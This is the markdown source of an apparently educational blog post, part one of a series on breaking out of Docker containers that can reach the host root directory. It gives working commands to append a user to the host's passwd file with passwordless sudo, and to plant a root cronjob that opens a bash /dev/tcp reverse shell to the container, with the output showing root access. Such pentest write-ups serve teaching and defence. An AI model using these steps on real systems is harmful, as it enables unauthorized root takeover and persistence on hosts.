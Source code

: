 ```yaml
---
title: "Container Breakouts – Part 1: Access to root directory of the Host"
date: 2020-07-15T08:39:10+02:00
draft: false
tags:
- docker
- breakout
- security
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with access to the host root directory.

<!--more-->

The following posts will be part of the series:
- Part 1: Access to root directory of the Host
- Part 2: Privileged Container
- Part 3: Docker Socket

<!--
The following posts are part of the series:
- Part 1: Access to root directory of the Host
- [Part 2: Privileged Container](../container-breakouts-part2)
- [Part 3: Docker Socket](../container-breakouts-part3)
-->


## Intro

The **motivation** of this post is to **collect container breakouts**. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

I also realized during writing that the post must be sliced into more digestible pieces. 

The **first post** is **about** what could probably go wrong if the **host root directory** is **accessible** from the container. Due to the fact that we have only access to the disc, this approach is absolutely not an OpSec-safe approach to escalate your privileges. 

The proposed techniques use Unix operating system features that are more system security related, then container security related. But, as part of a comprehensive series it has to take place to show the importance.

## Shared Host root directory

Access to a container that shares directories with the host is **not** an **immediate problem**. **But** if the container has **access to** the **host root directory** as user `root` (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you hit the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer** group. After the user is created, we connect via **SSH** to the host. Admittedly, it is a kind of constructed, because certain packages must have been installed and services running, but you get the idea.

Here are all steps that must be performed (we start in the container).


```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

For this scenario, the SSH daemon is running on the host, the configuration is not hardened and the `sudo` package is installed. The sudo step can be exchanged by creating another user with `uid=0(root)`. Another option would be the creation of SSH keys for existing users.

### Cronjob

Due to the fact that in a default setup the container is **direct connected to the host**, we can initiate not only connections from the container to the host, also vice-versa. To do so, we need the IP address from the container. Depending on the binaries that are available on the host, we initiate a **reverse shell by** a **cronjob** that connects to an exposed port on the container. In this showcase, we use `bash` for the reverse connection and `netcat` to handle the connection in the container. The following line is all we need:

```
* * * * * root bash -i >& /dev/tcp/$CONTAINER_IP/$CONTAINER_PORT 0>&1
```

The **cronjob** is executed **every minute** as user `root` on the host. So, as soon as the cronjob gets trigger, we are getting **root access to** the **host** system. 

Here are all steps that must be performed (we start in the container).

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 

## Conclusion

Both examples are approaches to get direct access to host system. They are modifying the host and **absolutely not minimal-inversive or OpSec-safe**. If you **make mistakes**, you may mix up the configuration of the **host system** and **crash** it. **Be careful !!**

Furthermore, the proposed techniques are possible approaches to escape out of a container if one has access to the host root directory. By the nature of this attack vector, it is more a general Unix privileges escalation technique, then a dedicated container breakout.

I may update the list from time-to-time. If you have important approaches that you think they should be listed, do not hesitate and get in touch.

If you are interested in further, less riotous techniques stay tuned for the next post _**Part 2: Privileged Container**_.
<!--
If you are interested in further, less riotous techniques continue with the next post [Container Breakouts – Part 2: Privileged Container](../container-breakouts-part2).
-->


